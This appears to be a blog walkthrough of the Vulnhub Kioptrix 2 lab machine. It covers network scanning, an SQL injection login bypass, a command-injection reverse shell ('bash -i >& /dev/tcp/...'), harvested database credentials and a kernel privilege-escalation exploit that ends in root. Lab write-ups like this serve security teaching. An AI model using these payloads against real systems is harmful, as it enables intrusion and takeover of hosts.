 ```yaml
---
layout: post
title:  "Vulnhub - Kioptrix 2"
date:   2017-04-19 18:19:00 +0100
categories: vulnhub kioptrix
image:
  feature: kioptrix2.jpg
  credit:
  creditlink:
---
```


```bash
root@kali:~# arp-scan -l
Interface: eth0, datalink type: EN10MB (Ethernet)
Starting arp-scan 1.9 with 256 hosts (http://www.nta-monitor.com/tools/arp-scan/)
192.168.137.1	00:50:56:c0:00:01	VMware, Inc.
192.168.137.133	00:0c:29:9e:ff:2f	VMware, Inc.
192.168.137.254	00:50:56:fe:05:d2	VMware, Inc.

3 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.9: 256 hosts scanned in 1.851 seconds (138.30 hosts/sec). 3 responded
```
```bash
root@kali:~# nmap -A 192.168.137.133

Starting Nmap 7.25BETA1 ( https://nmap.org ) at 2017-04-19 19:24 BST
Nmap scan report for 192.168.137.133
Host is up (0.00019s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey: 
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
111/tcp  open  rpcbind  2 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1            855/udp  status
|_  100024  1            858/tcp  status
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-10-08T00:10:47
|_Not valid after:  2010-10-08T00:10:47
|_ssl-date: 2017-04-19T15:15:02+00:00; -3h09m44s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|_    SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
631/tcp  open  ipp      CUPS 1.1
| http-methods: 
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/1.1
|_http-title: 403 Forbidden
3306/tcp open  mysql    MySQL (unauthorized)
MAC Address: 00:0C:29:9E:FF:2F (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.30
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.19 ms 192.168.137.133

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.14 seconds
```

Firstly, we visit the web page and are greeted by a login page.

![](/assets/img/kioptrix2/1.png)
 
I didn't really know SQL Injection when I was doing this box, and I did end up looking up the solution for bypassing this login form, as below:

```mysql
' or 1=1 --
```

This is a pretty standard example of an SQL injection and gives us access to form allowing us to ping a device on the network.  This immediately suggested some form of command injection.  Since it's a vulnerable machine, it seemed fairly obvious that we could input some other command. 

![](/assets/img/kioptrix2/2.png)

So lets try and spawn a reverse shell.

```bash
192.168.137.128 && bash -i >& /dev/tcp/192.168.137.128/1234 0>&1
```

Boom!  We have a shell.

```bash
root@kali:/usr/share/wordlists# nc -l -p 1234 -vvv
listening on [any] 1234 ...
192.168.137.133: inverse host lookup failed: Unknown host
connect to [192.168.137.128] from (UNKNOWN) [192.168.137.133] 32771
bash: no job control in this shell
bash-3.00$ ls
index.php
pingit.php
bash-3.00$ 
```

Let's have a look inside the php files and see if we see anything interesting.  Inside index.php after a little searching we find some credentials to the local mysql database.

```bash
mysql_connect("localhost", "john", "hiroshima") or die(mysql_error());
```
Unfortunately, dumping the database didn't appear to yield us many more more ways of progressing.  So we have a look at the kernel version and search for exploits.

```
CentOS release 4.5 (Final)

Linux version 2.6.9-55.EL 
```
We searchsploit and come across a number of different candidates, but we find one in particular which appears to yield us some success.

```bash
Linux Kernel 2.4.x / 2.6.x (CentOS 4.8/5.3 / RHEL 4.8/5.3 / SuSE 10 SP2/11 / Ubuntu 8.10) (PPC) - 'sock_sendpage()' Privilege Escalation 
```

Downloading and compiling greets us with the following error message:
```bash
bash-3.00$ ./9545
sh: no job control in this shell
```
So we just need to upgrade this shell to a tty.

```bash
>>> import pty
import pty
>>> pty.spawn('./9545')
pty.spawn('./9545')
sh-3.00# ls
ls
9542.c	9545  9545.c  break  dump.sql
sh-3.00# id
id
uid=0(root) gid=0(root) groups=48(apache)
```
Rooted!
